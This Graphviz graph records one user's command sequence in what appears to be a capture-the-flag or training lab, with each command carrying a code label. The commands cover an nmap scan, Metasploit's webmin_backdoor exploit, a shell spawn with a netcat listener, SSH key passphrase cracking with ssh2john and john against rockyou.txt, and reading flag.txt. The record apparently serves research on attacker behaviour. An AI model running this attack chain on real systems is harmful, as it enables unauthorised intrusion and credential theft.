 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 M0 "]
	2 [label="msfconsole M2 "]
	3 [label="search webmin M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	5 [label="show options M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run V8 "]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run V8 "]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options V5 "]
	16 [label="run V8 "]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a A10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 V16 "]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
